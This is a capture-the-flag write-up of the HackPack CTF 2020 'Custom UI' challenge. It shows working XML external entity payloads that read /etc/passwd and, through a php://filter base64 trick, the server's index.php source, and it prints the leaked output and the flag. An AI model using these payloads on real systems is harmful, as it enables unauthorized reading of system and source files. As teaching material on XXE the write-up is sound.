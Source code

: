 ```yaml
---
title: 'HackPack CTF 2020: Custom UI'
date: 2020-05-18
categories: [writeups]
author: None
---
```


> How often do you visit the website just to bounce back because of bad design?
> Now we developed a new feature, which gives you the ability to change the
> design! Check out a new feature: https://custom-ui.cha.hackpack.club/

<!--more-->

By fiddling with the input we get some interesting warnings

```
Warning:  DOMDocument::loadXML(): StartTag: invalid element name in Entity, line: 1 in /var/www/html/index.php on line 12
Warning:  simplexml_import_dom(): Invalid Nodetype to import in /var/www/html/index.php on line 13
```

and inspecting the traffic we see that the data is indeed XML encoded:

```
xdata: <button><color>red</color><value>foo</value></button>
```

Let's try a simple XEE attack:

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
  <!ELEMENT button ANY>
  <!ELEMENT color ANY>
  <!ENTITY xee SYSTEM "file:///etc/passwd">
]>
<button>
  <color></color>
  <value>&xee;</value>
</button>
```

Lo and behold, out pops `/etc/passwd`:

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/bin/false
```

What file should we look at next? From the warnings we know the location of
`index.php`. Unfortunately, since PHP isn't XML but looks a bit like it, if we
try to include a raw PHP file in the XML we just get a bunch of warnings of
the following sort:

```
Warning:  DOMDocument::loadXML(): StartTag: invalid element name in file:///var/www/html/index.php, line: 20 in /var/www/html/index.php on line 12
Warning:  DOMDocument::loadXML(): Opening and ending tag mismatch: meta line 24 and head in file:///var/www/html/index.php, line: 27 in /var/www/html/index.php on line 12
Warning:  DOMDocument::loadXML(): xmlParsePI : no target name in file:///var/www/html/index.php, line: 31 in /var/www/html/index.php on line 12
Warning:  DOMDocument::loadXML(): xmlParsePI : no target name in file:///var/www/html/index.php, line: 35 in /var/www/html/index.php on line 12
Warning:  DOMDocument::loadXML(): Unescaped '&lt;' not allowed in attributes values in file:///var/www/html/index.php, line: 36 in /var/www/html/index.php on line 12
```

There is a standard trick to enclose the offending file in a CDATA section, but
it is somewhat roundabout, and since it is PHP we are dealing with we can
instead take advantage of its idiosyncratic data filtering feature like so:

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
  <!ELEMENT button ANY>
  <!ELEMENT color ANY>
  <!ENTITY xee SYSTEM "php://filter/read=convert.base64-encode/resource=/var/www/html/index.php">
]>
<button>
  <color></color>
  <value>&xee;</value>
</button>
```

Towards the end of the file is the following snippet

```php
<?php
  if ($debug == "true") {
    echo "<!-- TODO: Delete flag.txt from /etc/ -->";
  }
?>
```

which directs us to the flag:

```
flag{d1d_y0u_kn0w_th@t_xml_can_run_code?}
```

By the way: I did not and still don't know that XML can run code.
